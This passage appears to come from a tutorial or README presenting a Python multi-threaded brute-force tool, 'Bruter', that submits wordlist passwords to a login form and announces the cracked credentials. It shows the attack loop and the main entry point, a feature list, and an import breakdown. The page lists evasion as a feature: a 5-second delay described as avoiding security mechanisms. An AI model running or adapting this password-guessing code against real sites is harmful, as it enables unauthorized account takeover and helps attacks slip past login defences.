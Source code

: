 ```python
            time.sleep(5)
            passwd = passwords.get()
            print(f'Trying username/password {self.username}/{passwd:<10}')
            params['pwd'] = passwd
            resp1 = session.post(self.url, data=params)
            
            if SUCCESS in resp1.content.decode():
                self.found = True
                print(f"\nBruteforcing successful.")
                print("Username is %s" % self.username)
                print("Password is %s\n" % passwd)
                self.found = True

if __name__ == '__main__':
    b = Bruter(ADMIN, TARGET)
    words = get_words()
    b.run_bruteforce(words)
```
---

## **📌 Features**
✔ **Multi-threaded attack (10 threads)**  
✔ **Extracts hidden input fields dynamically**  
✔ **Uses session cookies for persistence**  
✔ **Automatically detects a successful login**  
✔ **Throttled brute-force attempts (5s delay)**  

---

## **📜 Code Breakdown**

### **1️⃣ Import Required Modules**
```python
from io import BytesIO
from lxml import etree
from queue import Queue

import requests
import sys
import threading
import time
```
- **`requests`** → Handles HTTP requests  
- **`queue.Queue`** → Manages the password list for multi-threading  
- **`threading`** → Enables concurrent login attempts  
- **`lxml.etree`** → Parses HTML to extract form fields  
- **`time.sleep(5)`** → Avoids triggering security mechanisms  

---
